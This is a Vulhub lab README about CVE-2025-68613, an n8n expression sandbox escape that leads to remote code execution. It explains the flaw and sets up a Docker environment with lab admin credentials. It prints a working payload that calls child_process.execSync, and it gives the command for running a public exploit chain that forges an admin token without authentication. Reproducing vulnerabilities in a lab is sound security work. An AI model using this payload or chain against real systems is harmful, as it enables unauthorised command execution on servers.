

# n8n Expression Sandbox Escape to RCE (CVE-2025-68613)

[中文版本(Chinese version)](README.zh-cn.md)

[n8n](https://n8n.io/) is an open-source workflow automation platform that allows users to connect various services through a visual node-based interface.

CVE-2025-68613 is a critical vulnerability (CVSS 9.9) in n8n's server-side expression evaluation engine, affecting versions 0.211.0 through 1.120.3. n8n allows users to embed JavaScript expressions enclosed in `{{ }}` within workflow node parameters, which are evaluated on the server at runtime. Due to insufficient sandbox isolation, an authenticated user can craft a malicious expression that escapes the intended execution context, accesses the Node.js `process` global object, and uses `child_process.execSync()` to execute arbitrary operating system commands with the privileges of the n8n process. While this vulnerability requires authentication, it can be chained with [CVE-2026-21858](https://github.com/vulhub/vulhub/tree/master/n8n/CVE-2026-21858) (unauthenticated arbitrary file read via Content-Type confusion) to achieve unauthenticated remote code execution.

References:

- <https://github.com/n8n-io/n8n/security/advisories/GHSA-vpcf-gvg4-6qwr>
- <https://github.com/Chocapikk/CVE-2026-21858>
- <https://orca.security/resources/blog/cve-2025-68613-n8n-rce-vulnerability/>

## Environment Setup

Execute the following command to start n8n 1.65.0:

```
docker compose up -d
```

After the server starts (initialization takes about 30 seconds), visit `http://your-ip:5678` to access the n8n interface. The environment is pre-configured with an admin account (`admin@vulhub.org` / `Vulhub123`) and a document submission workflow with a form endpoint at `/form/vulnerable-form`.

## Vulnerability Reproduction

The exploit chain works as follows: first, use CVE-2026-21858 to read the n8n database and encryption key from the server filesystem without authentication; then forge a valid admin JWT token using the extracted credentials; finally, create a workflow containing a malicious expression that escapes the sandbox to execute OS commands.

The core sandbox escape expression is:

```
{{ (function(){ return this.process.mainModule.require('child_process').execSync('id').toString() })() }}
```

This expression uses `this` within a function context to access the Node.js global `process` object, then calls `require('child_process').execSync()` to execute an arbitrary OS command.

The full chain is automated by [exploit.py](exploit.py) (from the [public exploit](https://github.com/Chocapikk/CVE-2026-21858)):

```shell
# pip install -r requirements.txt
python exploit.py http://your-ip:5678 /form/vulnerable-form --cmd id
```



The exploit reads the home directory, encryption key, and database, forges an admin token, creates a workflow with the sandbox escape expression, executes it, and returns the command output — all without any prior authentication.
